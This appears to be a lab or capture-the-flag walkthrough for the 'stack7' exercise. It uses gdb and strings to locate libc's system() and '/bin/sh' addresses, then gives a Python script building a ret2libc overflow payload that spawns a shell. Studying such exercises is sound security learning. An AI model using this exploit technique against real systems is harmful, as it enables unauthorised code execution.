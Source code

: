 > (gdb) info proc map

We will get 0xb7e97000 (start address) 0xb7fd5000(end address) of the libc

" bin/sh” string should also present in libc, we will again use gdb to find it

> (gdb) find 0xb7e97000, +9999999, "/bin/sh"

We will get the output 
```
0xb7fba23f

warning: Unable to access target memory at 0xb7fd9647, halting search.

1 pattern found.
```
But the command (gdb) x/s 0xb7fba23f won't display anything like bin/sh

>strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh 

We will use the above command to inspect libc file outside gdb

we have “/bin/sh” at offset '0x11f3bf' in libc, and libc is loaded at '0xb7e97000' (from above) , which means the string is at the address '0xb7fb63bf '

On checking that in gdb, we will find that

>(gdb) x/s 0xb7fb63bf

Will output 0xb7fb63bf: "/bin/sh"    

We will use python code and input the result into our programme

  

  

### CODE:(exploit.py)

          import struct

  

          junk1 = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT' 

          system\_addr = struct.pack('I', 0xb7ecffb0)  

          junk2 = 'AAAA' # junk (return address 2 in the picture above)

          bin\_sh\_addr = struct.pack('I', 0xb7fb63bf)

  

  

          payload = junk1 + system\_addr.decode('latin-1') + junk2 + bin\_sh\_addr.decode('latin-1')

  

  

          print(payload.encode('latin-1'))

> python3 exploit.py | ./stack7  

We will be directed into a shell.  

WE ARE DONE WITH THE STACKS ;>